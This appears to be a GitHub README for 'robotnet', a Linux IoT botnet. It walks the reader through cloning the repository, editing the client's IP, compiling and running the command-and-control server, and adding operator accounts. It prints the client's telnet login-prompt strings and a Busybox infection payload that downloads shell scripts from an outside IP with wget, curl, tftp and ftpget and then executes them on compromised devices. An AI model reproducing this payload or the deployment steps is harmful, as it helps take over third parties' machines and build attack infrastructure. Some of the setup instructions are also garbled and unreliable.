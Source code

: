# robotnet
This is a Ubuntu botnet for OS_linux and linux

GETTING THE BOTNET 
sudo apt-get install git (this will install git )
git clone https://github.com/robotikmaniac/robotnet







dir  (This should be under robotnet)
cd robotnet
PACKAGES SHOULD INCLUDE
CC7.py    <<   python
CLIENT.C  <<   C++
server.C  <<   C++






PREP FOR BOTNET
nano client.c
(((((
skip past the includes
skip past the mozzilas
make sure you see this

char* phone[] = {":", "ogin", "sername", "assword", "Linux", "9615-cdp", (char*)0};
char *Busybox_Payload = "cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://94.177.230.28/bins.sh; curl -O 
http://94.177.230.2/bin.sh; /bin/busybox tftp 94.177.230.28 -c get tftp1.sh; chmod 777 bins.sh; sh bins.sh; tftp 94.177.230.28 -c get 
tftp -r tftp1.sh -g 94.177.230.28; chmod 777 tftp1.sh; sh tftp1.sh; ftpget -v -u anonymous -p anonymous -P 21 94.177.230.28 ftp1.sh

)))))))))))









(EDIT THE IP)
 LINE 224     ===   94.177.230.28:812  (change to)  {{  "your ip":23    }}
 
 MAKE SURE WHEN YOU EDIT THE IP'S CORRECT on one of the lines theres a IP thats looks LIKE 94.177.230.2
 (make sure to take off one of the numbers ) to the ip
 
 example (IP) 192.168.1.72
 if 94.177.230.28 make it look like 192.168.1.72     
 if the ip looks like 94.177.230.2   make it look like 192.168.1.72
 
 after you have done all of that
 
 
 
 
 
 
 
 
 
 
 
 
 (COMPILE THE BOTNET)
 THE PACKAGES YOU WILL NEED
 
 sudo apt-get install yum               
 (MIGHT UPDATE)
 
 sudo apt-get install python3           
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install python-paramiko   
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install nano              
 (JUST DO IT IT MIGHT HAVE A NEW VERSION
 
 sudo apt-get install screen            
 (MOST OF LINUX OS's SO NOT HAVE SCREEN INSTALLED)
 
 sudo apt-get install gcc               
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install perl              
 (NEW VERSIONS OF PERL GET REALESED MONTHLY/WEEKLY)
 
 sudo apt-get install wget              
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 sudo apt-get install zip               
 (BOLTH ARE NEEDED FOR THE DOWNLOAD)
 
 sudo apt-get install zip2             
 (BOLTH ARE NEEDED FOR THE DOWNLOAD)
 
 sudo apt-get install unzip            
 (JUST DO IT IT MIGHT HAVE A NEW VERSION)
 
 
 
 
 
 
 
 THOSE ARE ALL THE PACKAGES YOU NEED AFTER THAT I DO RECOMEND DOING
 sudo apt-get update     (DO THIS)
 sudo apt-get upgrade
 sudo apt-get update     (yes i typed this again on perpose)
 
 
 
 
 
 
 
 
 
 
 
 
 (RUNNING THE BOTNET)
 
 gcc server.c -o server -pthread
 ignore the warnings its just telling you that its going to port fowward using telnet-RAW
 
 
 python cc7.py client.c (PUT SERVERS IP HERE)
 THIS WILL TAKE ABOUT 10 mins to install
 
 
 
(PORT FOWWARDING THE BOTNET)
THIS MAY NOT WORK IF USING A PRIVATE IP BUT IF YOU USED A EXTERNAL IP THIS WILL WORK FINE

screen ./server 23 1 (PORT 1-9999)
IF IT SAYS OTHER SYSTEM IS USING THE IP DONT WORRY IT WILL STILL WORK
IF IT HAS A BLACK SCREEN THE BOTNET IS PORT FOWWARDING









(CONNECT TO THE BOTNET)
GO INTO PUTTY then type your (IP OF CHOICE)
SELECT A RAW CONNECTON TYPE 
THEN TYPE THE PORT YOU USED (1-9999)
if you see something that sese
robotnet (THEN YOU HAVE CONNECTED TO YOUR BOTNET)
GO BACK TO YOUR SESSION 
PRESS "CTRL C"
then add some acounts 
USERNAME MUST BE >>>root<<< NO CAPS
echo root (PASSWORD OF CHOICE) >>login.txt
(AFTER THAT YOU HAVE JUST ADDED A ACOUNT)
PORT FOWWORD YOUR BOTNET AGAIN 
THEN use
username root
password of your choice
you should be greeted to a menu with the rules of the server 










(INFO ABOUT THE BOTNET)
SCANNERS MUST BE ADDED BY YOURSELF
SERVALENCE AND PRIVACY ALSO MUST BE ADDED BY YOURSELF
I RECOMEND USING LONG PROTECTIVE PASSWORDS

